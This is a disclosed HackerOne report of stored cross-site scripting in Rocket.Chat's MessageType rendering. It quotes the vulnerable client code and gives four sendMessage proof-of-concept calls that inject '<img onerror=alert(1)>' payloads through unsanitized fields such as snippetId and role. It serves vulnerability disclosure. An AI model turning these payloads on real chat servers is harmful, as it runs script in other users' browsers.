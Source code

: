 # XSS in various MessageTypes

## Report Details
- **Report ID**: 1379400
- **URL**: https://hackerone.com/reports/1379400
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-10-23T19:43:08.122Z
- **Disclosed**: 2024-08-10T21:55:12.427Z

## Reporter
- **Username**: gronke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
## Summary

Rendering messages of various MessageTypes can lead to arbitrary script execution in the receiving frontend client.

## Description

Messages in Rocket.Chat can have various types that influence the rendering as seen in [app/ui-message/client/message.js#L24-L53](https://github.com/RocketChat/Rocket.Chat/blob/45a5d1f869e1a0ba292d0af2c2a58dcdc8761e13/app/ui-message/client/message.js#L24-L53):

```javascript
const renderBody = (msg, settings) => {
	const searchedText = msg.searchedText ? msg.searchedText : '';
	const isSystemMessage = MessageTypes.isSystemMessage(msg);
	const messageType = MessageTypes.getType(msg) || {};

	if (messageType.render) {
		msg = messageType.render(msg);
	} else if (messageType.template) {
		// render template
	} else if (messageType.message) {
		msg.msg = escapeHTML(msg.msg);
		msg = TAPi18n.__(messageType.message, { ...typeof messageType.data === 'function' && messageType.data(msg) });
	} else if (msg.u && msg.u.username === settings.Chatops_Username) {
		msg.html = msg.msg;
		msg = renderMentions(msg);
		msg = msg.html;
	} else {
		msg = renderMessageBody(msg);
	}

	if (isSystemMessage) {
		msg.html = Markdown.parse(msg.html);
	}

	if (searchedText) {
		msg = msg.replace(new RegExp(searchedText, 'gi'), (str) => `<mark>${ str }</mark>`);
	}

	return msg;
};
```

These MessageTypes are registered on startup of Rocket.Chat, like in this example the Message Snippeting Feature [app/message-snippet/client/messageType.js#L4-L16](https://github.com/RocketChat/Rocket.Chat/blob/45a5d1f869e1a0ba292d0af2c2a58dcdc8761e13/app/message-snippet/client/messageType.js#L4-L16)

```javascript
import { MessageTypes } from '../../ui-utils';

Meteor.startup(function() {
	MessageTypes.registerType({
		id: 'message_snippeted',
		system: true,
		message: 'Snippeted_a_message',
		data(message) {
			const snippetLink = `<a href="/snippet/${ message.snippetId }/${ encodeURIComponent(message.snippetName) }">${ escapeHTML(message.snippetName) }</a>`;
			return { snippetLink };
		},
	});
});
```

Unlike most other MessageTypes, not the messages sanitized `msg` parameter is rendered, but `snippetName` and `snippetId`. The unsanitized `message.snippetId` leads to arbitrary script execution in the client displaying a maliciously crafted message.

```javascript
Meteor.call("sendMessage", {
  rid: "<ROOM_ID>",
  msg: "",
  t: "message_snippeted",
  snippetId: "\"><img src=x onerror=alert(1) style=\"display: none;\" x=\"",
  snippetName: ""
}, (...args) => console.log(...args));
```

Another MessageTypes have been found to be affected similarly:

```javascript
Meteor.call("sendMessage", {
  rid: "<ROOM_ID>",
  msg: "",
  t: "subscription-role-removed",
  role: "<img src=x onerror=alert(1) />"
}, (...args) => console.log(...args));
```

```javascript
Meteor.call("sendMessage", {
  rid: "<ROOM_ID>",
  msg: "",
  t: "livechat_transfer_history",
  transferData: {
    scope: "agent",
    transferredTo: {
      name: "<img src=x onerror=alert(1) />"
    }
  }
}, (...args) => console.log(...args));
```

```javascript
Meteor.call("sendMessage", {
  rid: "<ROOM_ID>",
  msg: "",
  t: "omnichannel_placed_chat_on_hold",
  comment: "<img src=x onerror=alert(1) />"
}, (...args) => console.log(...args));
```

## Releases Affected:

  * 3.18.2
  * 4.0.3

## Steps To Reproduce (from initial installation to vulnerability):

1.) Login to Rocket.Chat
2.) Find any Room ID (window URL path from direct messages or avatar image path from channels)
3.) Call `sendMessage` Meteor Method with `t` parameter and the affected source parameter

## Suggested mitigation

  * Sanitize message parameters rendered from MessageType `render` or `data` functions

## Impact

Authenticated adversaries can craft messages that exploit XSS in the displaying frontend clients.

## Attachments
No attachments
